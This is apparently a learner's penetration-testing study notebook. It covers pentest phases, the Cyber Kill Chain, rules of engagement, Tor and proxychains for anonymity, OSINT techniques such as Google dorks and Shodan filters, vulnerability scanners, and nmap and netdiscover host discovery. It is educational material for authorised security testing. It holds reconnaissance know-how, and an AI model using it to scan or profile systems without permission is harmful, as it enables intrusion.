# Table of Contents

[Cryptology In Theory: Studying cryptography and cryptanalysis
[4](#_Toc138512368)](#_Toc138512368)

[General [4](#_Toc138512369)](#_Toc138512369)

[Tokenization [6](#_Toc138512370)](#_Toc138512370)

[Steganography [7](#_Toc138512371)](#_Toc138512371)

[Encryption [7](#_Toc138512372)](#_Toc138512372)

[Symmetric and asymmetric encryption
[7](#_Toc138512373)](#_Toc138512373)

[Symmetric Encryption [9](#_Toc138512374)](#_Toc138512374)

[Asymmetric Encryption (Public Key Encryption)
[14](#_Toc138512375)](#_Toc138512375)

[How AES and RSA work together (public and private)
[20](#_Toc138512376)](#_Toc138512376)

[Hashing [20](#_Toc138512377)](#_Toc138512377)

[MD5 [23](#_Toc138512378)](#_Toc138512378)

[SHA-1 [24](#_Toc138512379)](#_Toc138512379)

[SHA-2 [24](#_Toc138512380)](#_Toc138512380)

[MIC (message integrity check) [25](#_Toc138512381)](#_Toc138512381)

[Cryptography Applications [25](#_Toc138512382)](#_Toc138512382)

[Digital certificates and Public Key Infrastructure
[26](#_Toc138512383)](#_Toc138512383)

[SSL, and TLS: Cryptography in action
[30](#_Toc138512384)](#_Toc138512384)

[Cryptographic Hardware [33](#_Toc138512385)](#_Toc138512385)

[Encrypted Web Traffic [35](#_Toc138512386)](#_Toc138512386)

[Cryptology in Practice [35](#_Toc138512387)](#_Toc138512387)

[Encoding [35](#_Toc138512388)](#_Toc138512388)

[base64 [35](#_Toc138512389)](#_Toc138512389)

[Hashing (Creating a hash digest of a string/file)
[36](#_Toc138512390)](#_Toc138512390)

[Introduction [36](#_Toc138512391)](#_Toc138512391)

[MD5 (128 bit hash) [36](#_Toc138512392)](#_Toc138512392)

[Verifying an invalid file [38](#_Toc138512393)](#_Toc138512393)

[SHA [40](#_Toc138512394)](#_Toc138512394)

[SHA1 [40](#_Toc138512395)](#_Toc138512395)

[SHA256 [40](#_Toc138512396)](#_Toc138512396)

[\[Windows 10\] Hashing a files, dirs, and values
[41](#_Toc138512397)](#_Toc138512397)

[Encryption: Creating/inspecting keys, encrypting/decrypting and signing
[48](#_Toc138512398)](#_Toc138512398)

[RSA Encryption \[Asymmetric\] [48](#_Toc138512399)](#_Toc138512399)

[AES Encryption \[Symmetric\] [64](#_Toc138512400)](#_Toc138512400)

[Encrypting with PGP \[Asymmetric\]
[72](#_Toc138512401)](#_Toc138512401)

[Digital Signature: Signing with Hash with a private key
[78](#_Toc138512402)](#_Toc138512402)

[Creating signature and verifying it with openssl
[79](#_Toc138512403)](#_Toc138512403)

[Digital Certificate Management [80](#_Toc138512404)](#_Toc138512404)

[Creating Certificates Using OpenSSL
[80](#_Toc138512405)](#_Toc138512405)

[Troubleshooting (s_client command)
[84](#_Toc138512406)](#_Toc138512406)

[Assigning SSL cert on apache [84](#_Toc138512407)](#_Toc138512407)

[Red team: Understanding threats and attacks
[85](#_Toc138512408)](#_Toc138512408)

[Phases/Steps to Penetration Testing
[85](#phasessteps-to-penetration-testing)](#phasessteps-to-penetration-testing)

[PenTest stages [85](#pentest-stages)](#pentest-stages)

[Cyber Kill Chain [86](#cyber-kill-chain)](#cyber-kill-chain)

[Scope and Planning [87](#scope-and-planning)](#scope-and-planning)

[Determine Targets [87](#determine-targets)](#determine-targets)

[Legal Contracts and concepts
[87](#legal-contracts-and-concepts)](#legal-contracts-and-concepts)

[Technical Constraints (Limits)
[87](#technical-constraints-limits)](#technical-constraints-limits)

[Assessment types [87](#assessment-types)](#assessment-types)

[Phases – Forensics [89](#phases-forensics)](#phases-forensics)

[Rules of Engagement (ROE)
[89](#rules-of-engagement-roe)](#rules-of-engagement-roe)

[Support Resources [93](#support-resources)](#support-resources)

[Privacy and remaining anonymmous
[95](#privacy-and-remaining-anonymmous)](#privacy-and-remaining-anonymmous)

[Tor [95](#tor)](#tor)

[ProxyChains [96](#proxychains)](#proxychains)

[Information Gathering
[103](#information-gathering)](#information-gathering)

[Passive (OSINT) [103](#passive-osint)](#passive-osint)

[Active [113](#active)](#active)

[Attacks in Practice
[175](#attacks-in-practice-gaining-access)](#attacks-in-practice-gaining-access)

[Setting up a testing lab
[176](#setting-up-a-testing-lab)](#setting-up-a-testing-lab)

[Attack Frameworks [179](#attack-frameworks)](#attack-frameworks)

[Social Engineering Attacks [179](#email-spoofing)](#email-spoofing)

[Software attacks: Malware (Malicious software)
[184](#windows-specific-vulnerabilities)](#windows-specific-vulnerabilities)

[Web/Browser-based attacks : Web security & Bug Bounty Hunting
[190](#webbrowser-based-attacks-web-security-bug-bounty-hunting)](#webbrowser-based-attacks-web-security-bug-bounty-hunting)

[Backdoors and Reverse shells
[244](#password-attacks)](#password-attacks)

[Trojans (Creating and deploying)
[271](#trojans-creating-and-deploying)](#trojans-creating-and-deploying)

[Password Attacks [277](#password-attacks)](#password-attacks)

[Network Attacks [289](#password-attacks)](#password-attacks)

[Email Spoofing [340](#email-spoofing)](#email-spoofing)

[Bluetooth Attacks [343](#bluetooth-attacks)](#bluetooth-attacks)

[Removing traces
[344](#software-attacks-and-malware-exploitation-and-gaining-access)](#software-attacks-and-malware-exploitation-and-gaining-access)

[Purging files (shred)
[344](#purging-files-shred)](#purging-files-shred)

[Blue Team: Security in practice [347](#_Toc138512440)](#_Toc138512440)

[**Roles in CyberSecurity** [348](#_Toc138512441)](#_Toc138512441)

[Data Sources [349](#_Toc138512442)](#_Toc138512442)

[SOC Services [350](#_Toc138512443)](#_Toc138512443)

[**Threat Intelligence** [351](#_Toc138512444)](#_Toc138512444)

[Understanding Threats [352](#_Toc138512445)](#_Toc138512445)

[Key terms [353](#_Toc138512446)](#_Toc138512446)

[Six Steps of threat modeling [353](#_Toc138512447)](#_Toc138512447)

[Threat Modeling Frameworks [354](#_Toc138512448)](#_Toc138512448)

[Threat actor types [356](#_Toc138512449)](#_Toc138512449)

[Hacker types [358](#_Toc138512450)](#_Toc138512450)

[Threat Trees [359](#_Toc138512451)](#_Toc138512451)

[CIA (CIA Triad) [360](#_Toc138512452)](#_Toc138512452)

[Threat/Asset Matrix [366](#_Toc138512453)](#_Toc138512453)

[Finding Vulnerabilities [371](#_Toc138512454)](#_Toc138512454)

[Vulnerability Types [371](#_Toc138512455)](#_Toc138512455)

[OSINT Tools (Open Source Intelligence)
[374](#_Toc138512456)](#_Toc138512456)

[McAfee Threat Report [374](#_Toc138512457)](#_Toc138512457)

[CVE (Common Vulnerabilities and Exposures list) and NVD
[375](#_Toc138512458)](#_Toc138512458)

[The OWASP Top 10 Vulnerabilities [377](#_Toc138512459)](#_Toc138512459)

[Compliance Standards [379](#_Toc138512460)](#_Toc138512460)

[Security Controls [382](#_Toc138512461)](#_Toc138512461)

[The data lifecycle [389](#_Toc138512462)](#_Toc138512462)

[Analyzing and Scoring Vulnerabilities
[391](#_Toc138512463)](#_Toc138512463)

[Vulnerability Assessments [391](#_Toc138512464)](#_Toc138512464)

[Security audits [392](#_Toc138512465)](#_Toc138512465)

[Vulnerability Management and Security Plans
[395](#_Toc138512466)](#_Toc138512466)

[NIST CSF (NIST Cyber Security framework)
[396](#_Toc138512467)](#_Toc138512467)

[NIST RMF (NIST Risk Management Framework)
[398](#_Toc138512468)](#_Toc138512468)

[System Hardening [399](#_Toc138512469)](#_Toc138512469)

[The eight CISSP security domains [399](#_Toc138512470)](#_Toc138512470)

[Policies, Standards, and Procedures
[406](#_Toc138512471)](#_Toc138512471)

[Defense in Depth (five layers) [407](#_Toc138512472)](#_Toc138512472)

[OWASP: Security Principles [408](#_Toc138512473)](#_Toc138512473)

[Hardening by Asset [409](#_Toc138512474)](#_Toc138512474)

[Incident Response [590](#_Toc138512475)](#_Toc138512475)

[Incident Response Playbook (5 phases)
[590](#_Toc138512476)](#_Toc138512476)

[What is Digital Forensics? [591](#_Toc138512477)](#_Toc138512477)

[Forensic tools/resources [593](#_Toc138512478)](#_Toc138512478)

[Purple team [595](#purple-team)](#purple-team)

[White Team [596](#white-team)](#white-team)

[Review and quizzes [596](#review-and-quizzes)](#review-and-quizzes)

[Quiz (Attacks, Threats, and Vulnerabilities)
[597](#quiz-attacks-threats-and-vulnerabilities)](#quiz-attacks-threats-and-vulnerabilities)

[Quiz questions II [611](#quiz-questions-ii)](#quiz-questions-ii)

[Case sample: Creating a Company Culture for Security
[618](#case-sample-creating-a-company-culture-for-security)](#case-sample-creating-a-company-culture-for-security)

[Measuring and assessing risk
[618](#measuring-and-assessing-risk)](#measuring-and-assessing-risk)

[Security Goals [619](#security-goals)](#security-goals)

[**Final Project - Sample Submission**
[621](#final-project---sample-submission)](#final-project---sample-submission)

# Phases/Steps to Penetration Testing

## PenTest stages

There are 7 stages/phases of penetration testing which include:

1.  **Information Gathering** – The organization being tested provides
    the penetration tester with general information like scope of
    testing.

2.  **Reconnaissance** -collect additional details from publicly
    accessible sources, penetration testers can identify additional
    information that may have been overlooked, unknown, or not provided.

3.  **Discovery and Scanning** – Information gathered from the first 2
    steps in then used to determine things like ports and services that
    were available for targeted hosts, or subdomains, available for web
    applications.

4.  **Vulnerability Assessment** -gain initial knowledge and identify
    any potential security weaknesses that could allow an outside
    attacker to gain access to the environment or technology being
    tested.

5.  **Exploitation** -After reviewing the results from the vulnerability
    assessment, the expert penetration testers will use manual
    techniques, human intuition, and their backgrounds to validate,
    attack, and exploit those vulnerabilities.

6.  **Final Analysis and Review** – This is usually a report that tells
    the client their systems’ weaknesses and give them suggestions to
    resolve those weaknesses.

7.  **Utilize the Testing Results** -organization being tested must
    actually use the findings from the security testing to risk rank
    vulnerabilities, analyze the potential impact of vulnerabilities
    found, determine remediation strategies, and inform decision-making
    moving forward.

## Cyber Kill Chain

Breaking into a target network usually includes a number of steps.
According to [Lockheed
Martin](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html),
the Cyber Kill Chain has seven steps:

1.  Recon: Recon, short for reconnaissance, refers to the step where the
    attacker tries to learn as much as possible about the target.
    Information such as the types of servers, operating system, IP
    addresses, names of users, and email addresses, can help the
    attack’s success.

2.  Weaponization: This step refers to preparing a file with a malicious
    component, for example, to provide the attacker with remote access.

3.  Delivery: Delivery means delivering the “weaponized” file to the
    target via any feasible method, such as email or USB flash memory.

4.  Exploitation: When the user opens the malicious file, their system
    executes the malicious component.

5.  Installation: The previous step should install the malware on the
    target system.

6.  Command & Control (C2): The successful installation of the malware
    provides the attacker with a command and control ability over the
    target system.

7.  Actions on Objectives: After gaining control over one target system,
    the attacker has achieved their objectives. One example objective is
    Data Exfiltration (stealing target’s data).

# Scope and Planning

## Determine Targets

Physical, users, wifi, apps, etc.

## Legal Contracts and concepts

- **Statement of Work (SOW):** Scope, Constraints, Contracts, Limits
  (General).

- **Master Service Agreement (MSA):** Slimmed down version of SOW from a
  broader view.

- **Non-Discolsure Agreement (NDA):** Defines what can’t be shared
  (between both parties).

## Technical Constraints (Limits)

Define which actions you are/are not allowed to perform on whom/what.

Also be mindful of 3rd-party resources which may require
3rd-party consent as well.

## Assessment types



## Phases – Forensics

The chain of custody is used to document the collection and preservation
of evidence from its initial acquisition, throughout the handling
leading up to a trial, and during its preservation in case of an appeal
or retrial.

## Rules of Engagement (ROE)

Important questions: Who, what, where, when … in relation to testing.

### What

### Where

### When

### Who

### How

#### Penetration testing strategies

There are three common penetration testing strategies: 

- **Open-box testing** is when the tester has the same privileged access
  that an internal developer would have—information like system
  architecture, data flow, and network diagrams. This strategy goes by
  several different names, including internal, full knowledge,
  white-box, and clear-box penetration testing.

- **Closed-box testing** is when the tester has little to no access to
  internal systems—similar to a malicious hacker. This strategy is
  sometimes referred to as external, black-box, or zero knowledge
  penetration testing.

- **Partial knowledge testing** is when the tester has limited access
  and knowledge of an internal system—for example, a customer service
  representative. This strategy is also known as gray-box testing.

Closed box testers tend to produce the most accurate simulations of a
real-world attack. Nevertheless, each strategy produces valuable results
by demonstrating how an attacker might infiltrate a system and what
information they could access.

## Support Resources

### Policies

Ask what policies are currently in place (VPN, password rotation, etc).

### Soap vs REST

### Sample application request

# Privacy and remaining anonymmous

## ­Tor

If you try to run proxychains before installing tor, you will get an
error since tor isn’t installed and it’s being used as the default
proxy.

***E: Package 'tor' has no installation candidate***

**Install**

**Start**

**Verify (check listening TCP connections)**

**Additionally you can install the tor browser:**

sudo apt install torbrowser-launcher

**Verify browser connection is using tor network**

In address bar enter: **check.torproject.org**

## ProxyChains

**Install**

**Config**

**Start**

### Overview and Configuration

Make sure *“Proxy DNS requests”* is also uncommented as well.

### Using proxychains

Pass in the service you want proxyxchains to be applied on (SSH, telnet,
firefox, etc).

proxychains firefox [www.google.com](http://www.google.com)

You can also run nmap with proxychains

# Information Gathering

## Passive (OSINT)

Some examples include:

- Social media queries

- WHOIS searches: <https://whois.domaintools.com/>

- Dumpster diving

NetCraft: https://sitereport.netcraft.com/

### All-in-one OSINT Tools

#### Google dorks (google dorking)

<https://www.youtube.com/watch?v=Jsg9JOyoeg0>

<https://www.youtube.com/watch?v=u_gOnwWEXiA>

Here could see an example to understand how **Google
Darks** **password **used by hackers to gain sensitive information from
specific websites.

- “**inurl: domain/**” “**additional dorks**

A hacker would simply use in the desired parameters as follows:

- **inurl = the URL of a site you want to query**

- **domain = the domain for the site**

- **dorks = the sub-fields and parameters that a hacker wants to scan**

The best way to use **Google dorks** legally is to find
vulnerabilities **on your own website**.

We can also use other search filed
than [URL ](https://gbhackers.com/how-to-check-if-a-website-is-malicious/)that
will help to uncover a lot of information about a site.

**intitle:**  
**inurl:**  
**intext:**  
**define:**  
**site:**  
**phonebook:**  
**maps:**  
**book:**  
**info:**  
**movie:**  
**weather:**  
**related:**  
**link:**

#### Maltego (search anything and everything) \[POWERFUL\]

Comes in kali.

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/5942262#overview>

<https://www.youtube.com/watch?v=zemNLx0-LRw>

#### Shodan search engine

Search engine that searches the internet’s IoT information. Basically a
large scan of banner grabs.

**CrashCourse:** <https://www.youtube.com/watch?v=v2EdwgX72PQ>

**Cheat Sheet:**
<https://cheatography.com/sir-slammington/cheat-sheets/shodan/>

**Cheat Sheet:** <https://www.youtube.com/watch?v=5Ko6GUqY2m0>

##### Basic Search Filters

**port:** Search by specific port  
**net:** Search based on an IP/CIDR  
**hostname:** Locate devices by hostname  
**os:** Search by Operating System  
**city:** Locate devices by city  
**country:** Locate devices by country  
**geo:** Locate devices by coordinates  
**org:** Search by organization  
**before/after:** Timeframe delimiter  
**hash:** Search based on banner hash  
**has_screenshot:true** Filter search based on a screenshot being
present  
**title:** Search based on text within the title

### Geographic scanning

#### Wardriving/Warflying 

### Web app tech stack + site information

#### Whatweb (tech stack)

<https://www.kali.org/tools/whatweb/>

#### Netcraft (search by url – see tech info)

<https://sitereport.netcraft.com/>

#### Whois

Also, can be used directly on an IP to get info about the IP and who
owns it.

### DNS Information

#### Dnsdumpster

<https://dnsdumpster.com/>

#### Robtext (Get DNS information)

Used to grab dns and nameserver information.

#### Reverse DNS lookup

**Reverse DNS lookup** – looking up an ip to see which hostnames it
resolves to. Could be more than one…



### Subdomain Enumeration 

#### \[OSINT\] Google Dorking

**-site:www.tryhackme.com  site:\*.tryhackme.com**

#### \[OSINT\] SSL/TLS Certificates

**SSL/TLS Certificates**

When an SSL/TLS (Secure Sockets Layer/Transport Layer Security)
certificate is created for a domain by a CA (Certificate Authority),
CA's take part in what's called "Certificate Transparency (CT) logs".
These are publicly accessible logs of every SSL/TLS certificate created
for a domain name. The purpose of Certificate Transparency logs is to
stop malicious and accidentally made certificates from being used. We
can use this service to our advantage to discover subdomains belonging
to a domain, sites like <https://crt.sh> and
<https://ui.ctsearch.entrust.com/ui/ctsearchui> offer a searchable
database of certificates that shows current and historical results.

#### \[OSINT\] Subdomain search (knockpy)

Knowing any subdomains increases the size of the attack surface.

#### \[OSINT\] Sublist3r

To speed up the process of OSINT subdomain discovery, we can automate
the above methods with the help of tools
like [Sublist3r](https://github.com/aboul3la/Sublist3r).

#### \[OSINT\] DNS Zone Transfer

## Active

Some examples include:

- DNS Queries

- Network scanning

.

### The Wayback machine

The Wayback Machine (<https://archive.org/web/>) is a historical archive
of websites that dates back to the late 90s. You can search a domain
name, and it will show you all the times the service scraped the web
page and saved the contents. This service can help uncover old pages
that may still be active on the current website.

### Exploit database (exploitdb)

Find know exploitable vulnerabilities per given system type/specs:

<https://www.exploit-db.com/>

#### Searchsploit

[**https://www.youtube.com/watch?v=29GlfaH5qCM**](https://www.youtube.com/watch?v=29GlfaH5qCM)

Much like the locate command – a copy of the exploit db is saved locally
and referenced.

**Updating searchsploit**

You can also search for CVE vulnerabilities in exploit-db using the
searchspoit utility in the command line (standard in kali)

<https://medium.com/@heynik/how-to-search-the-exploit-by-terminal-using-searchsploit-in-kali-linux-7a90193b3ddf>

**Standard Search**



**Search by title**

**Copying a vulnerable file locally for investigation**

### Certificate and SSL/TLS Scanning

#### Sslscan

<https://www.kali.org/tools/sslscan/>

<https://www.youtube.com/watch?v=DDbwrMrwOFc>

SSLScan queries SSL services, such as HTTPS, in order to determine the
ciphers that are supported. SSLScan is designed to be easy, lean and
fast. The output includes preferred ciphers of the SSL service, the
certificate and is in text and XML formats.

**Note**: You don’t need to specify the protocol – just the domain at
least.

**Check which SSL/TLS protocols are enabled/disabled**

**Check SSL Cert key-bit and algorithm**

### VPN Scanning

#### Ike-scanning

<https://www.kali.org/tools/ike-scan/>

### Bandwidth monitoring tools

#### Cuckoo (sandbox tool)

### Vulnerability Scanning

#### What is a vulnerability scanner?

A **vulnerability scanner** is software that automatically compares
known vulnerabilities and exposures against the technologies on the
network. In general, these tools scan systems to find misconfigurations
or programming flaws.

Scanning tools are used to analyze each of the five attack surfaces that
you learned about in [the video about the defense in depth
strategy](https://www.coursera.org/learn/assets-threats-and-vulnerabilities/lecture/IdvXj/defense-in-depth-strategy):

1.  **Perimeter layer**, like authentication systems that validate user
    access

2.  **Network layer**, which is made up of technologies like network
    firewalls and others

3.  **Endpoint layer**, which describes devices on a network, like
    laptops, desktops, or servers

4.  **Application layer**, which involves the software that users
    interact with

5.  **Data layer**, which includes any information that’s stored, in
    transit, or in use

When a scan of any layer begins, the scanning tool compares the findings
against databases of security threats. At the end of the scan, the tool
flags any vulnerabilities that it finds and adds them to its reference
database. Each scan adds more information to the database, helping the
tool be more accurate in its analysis.

**Note:** Vulnerability databases are also routinely updated by the
company that designed the scanning software.

**<u>Performing scans</u>**

Vulnerability scanners are meant to be non-intrusive. Meaning, they
don’t break or take advantage of a system like an attacker would.
Instead, they simply scan a surface and alert you to any potentially
unlocked doors in your systems.

**Note:** While vulnerability scanners are non-intrusive, there are
instances when a scan can inadvertently cause issues, like crash a
system.

There are a few different ways that these tools are used to scan a
surface. Each approach corresponds to the pathway a threat actor might
take. Next, you can explore each type of scan to get a clearer picture
of this. 

**<u>External vs. internal</u>**

External and internal scans simulate an attacker's approach.

*External scans* test the perimeter layer outside of the internal
network. They analyze outward facing systems, like websites and
firewalls. These kinds of scans can uncover vulnerable things like
vulnerable network ports or servers.

*Internal scans* start from the opposite end by examining an
organization's internal systems. For example, this type of scan might
analyze application software for weaknesses in how it handles user
input.

**<u>Authenticated vs. unauthenticated</u>**

Authenticated and unauthenticated scans simulate whether or not a user
has access to a system.

*Authenticated scans* might test a system by logging in with a real user
account or even with an admin account. These service accounts are used
to check for vulnerabilities, like broken access controls.

*Unauthenticated scans* simulate external threat actors that do not have
access to your business resources. For example, a scan might analyze
file shares within the organization that are used to house internal-only
documents. Unauthenticated users should receive "access denied" results
if they tried opening these files. However, a vulnerability would be
identified if you were able to access a file.

**Limited vs. comprehensive**

Limited and comprehensive scans focus on particular devices that are
accessed by internal and external users.

*Limited scans* analyze particular devices on a network, like searching
for misconfigurations on a firewall.

*Comprehensive scans* analyze all devices connected to a network. This
includes operating systems, user databases, and more.

**Pro tip:** Discovery scanning should be done prior to limited or
comprehensive scans. Discovery scanning is used to get an idea of the
computers, devices, and open ports that are on a network.

#### Scanning Tools

##### Nexpose Vulnerability Scanner (from Metasploit)

Community edition is free (30-day trial):

<https://www.rapid7.com/blog/post/2012/09/19/using-nexpose-at-home-scanning-reports/>

<https://www.rapid7.com/products/nexpose/download/>

##### Nessus Vulnerability scanner

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279666#overview>

This is a commercial solution – but there are opensource alternatives
like OpenVAS and Metasploit’s “Nexpose” scanning module. Checking again…
OpenVAS may not be free anymore…

<https://www.tenable.com/products/nessus>

**Install, Enable, start**

sudo dpkg -i Nessus-\<version_num\>-debian6_amd64.deb

sudo systemctl enable nessusd

sudo systemctl enable nessusd

**WebUI**: localhost:8834

In order to scan you must have a policy set. Policies are just a
configuration defining what is to be scanned and which vulnerabilities.
Then, you can choose a policy (type of scan) and run that scan on an
immediate or scheduled basis.

You can define your targets too

##### nikto (outdated software scanner)

A fairly fast command.

##### Legion

<https://www.kali.org/tools/legion/>

##### sn1per (utility)

##### \[ALL-IN-ONE\] Discover Scanner

<https://github.com/leebaird/discover>

Not really a program – but a collection of scripts that are run.

Commands in text:

sudo su -

git clone <https://github.com/leebaird/discover> /opt/discover/

cd /opt/discover/

sudo ./discover.sh

**Usage:**

##### \[ALL-IN-ONE\] OWASP Zed Attack Proxy ZAP

<https://github.com/zaproxy/zaproxy>

Wasn’t installed on my version of kali by default – had to install it
with

[**https://www.zaproxy.org/download/**](https://www.zaproxy.org/download/)

**docs: <https://www.zaproxy.org/docs/>**

<https://www.udemy.com/course/learn-website-hacking-penetration-testing-from-scratch/learn/lecture/5934406#overview>

<https://www.udemy.com/course/learn-ethical-hacking-from-scratch/learn/lecture/5309142#announcements>

<https://www.youtube.com/watch?v=_VpFaqF0EcI>

### Network and System Scanning (Devices, Services, Software info and ports)

#### netdiscover (Local network device scanning – robust – uses arp protocol)

<https://www.youtube.com/watch?v=8tgEsVdy4a8>

Lists any/all connections on your network

**Install**

Allows you to also scan your network – similar in some ways to netstat,
but more robust.

*Usually doesn’t come pre-installed on most non-pen-testing distros. Use
requires root privileges.*

**Usage**

(abovereplace ‘enp20’ with your interface: etho, wlan0, etc)



**Using a range**

*Format:*

sudo netdiscover -r \<ip_cidr\> -I \<interface\>

*Example*

sudo netdiscover -r 10.10.2.1/24 -i eth0

#### Netstat/ss (Local network port connection scanning)

*Superceded by ‘ss’ – accepts same arguments*

Try netstat –help to se all the options!

netstat –r = same as route table

netstat –ie = same as ifconfig

netstat –t = view all tcp connections

netstat –l = view all listening connections

netstat –p = view associated processes

‘v’ for verbose and ‘t’ to see all tcp connections

Add ‘l’ to view listening connections:

**Show listening TCP/UDP ports**

sudo netstat -tulpn

netstat –a = view all

netstat –n = numeric – “do not resolve names”

**TUNA** : tcp, udp, all (not just listening), and no dns resolution

#### nmap (local/remote connection scanning)

The GUI version is called **zenmap** and is installed on kali.

<https://www.youtube.com/watch?v=4t4kBkMsDbQ>

sudo apt install nmap

##### nmap illustrated



##### On ports and firewalls

At the risk of oversimplification, we can classify ports in two states:

1.  Open port indicates that there is some service listening on that
    port.

2.  Closed port indicates that there is no service listening on that
    port.

However, in practical situations, we need to consider the impact of
firewalls. For instance, a port might be open, but a firewall might be
blocking the packets. Therefore, Nmap considers the following six
states:

1.  **Open**: indicates that a service is listening on the specified
    port.

2.  **Closed**: indicates that no service is listening on the specified
    port, although the port is accessible. By accessible, we mean that
    it is reachable and is not blocked by a firewall or other security
    appliances/programs.

3.  **Filtered**: means that Nmap cannot determine if the port is open
    or closed because the port is not accessible. This state is usually
    due to a firewall preventing Nmap from reaching that port. Nmap’s
    packets may be blocked from reaching the port; alternatively, the
    responses are blocked from reaching Nmap’s host.

4.  **Unfiltered**: means that Nmap cannot determine if the port is open
    or closed, although the port is accessible. This state is
    encountered when using an ACK scan -sA.

5.  **Open|Filtered**: This means that Nmap cannot determine whether the
    port is open or filtered.

6.  **Closed|Filtered**: This means that Nmap cannot decide whether a
    port is closed or filtered.

##### Host discovery using ARP

How would you know which hosts are up and running? It is essential to
avoid wasting our time port-scanning an offline host or an IP address
not in use. There are various ways to discover online hosts. When no
host discovery options are provided, Nmap follows the following
approaches to discover live hosts:

1.  When a *privileged* user tries to scan targets on a local network
    (Ethernet), Nmap uses *ARP requests*. A privileged user is root or a
    user who belongs to sudoers and can run sudo.

2.  When a *privileged* user tries to scan targets outside the local
    network, Nmap uses ICMP echo requests, TCP ACK (Acknowledge) to port
    80, TCP SYN (Synchronize) to port 443, and ICMP timestamp request.

3.  When an *unprivileged* user tries to scan targets outside the local
    network, Nmap resorts to a TCP 3-way handshake by sending SYN
    packets to ports 80 and 443.

Nmap, by default, uses a ping scan to find live hosts, then proceeds to
scan live hosts only. If you want to use Nmap to discover online hosts
without port-scanning the live systems, you can issue nmap -sn TARGETS.
Let’s dig deeper to gain a solid understanding of the different
techniques used.

ARP scan is possible only if you are on the same subnet as the target
systems. On an Ethernet (802.3) and WiFi (802.11), you need to know the
MAC address of any system before you can communicate with it. The MAC
address is necessary for the link-layer header; the header contains the
source MAC address and the destination MAC address among other fields.
To get the MAC address, the OS sends an ARP query. A host that replies
to ARP queries is up. The ARP query only works if the target is on the
same subnet as yourself, i.e., on the same Ethernet/WiFi. You should
expect to see many ARP queries generated during a Nmap scan of a local
network. If you want Nmap only to perform an ARP scan without
port-scanning, you can use nmap -PR -sn TARGETS, where -PR indicates
that you only want an ARP scan. The following example shows Nmap using
ARP for host discovery without any port scanning. We run nmap -PR -sn
MACHINE_IP/24 to discover all the live systems on the same subnet as our
target machine.

In this case, the AttackBox had the IP address 10.10.210.6, and it
used ARP requests to discover the live hosts on the same subnet. ARP
scan works, as shown in the figure below. Nmap sends ARP requests to all
the target computers, and those online should send an ARP reply back.

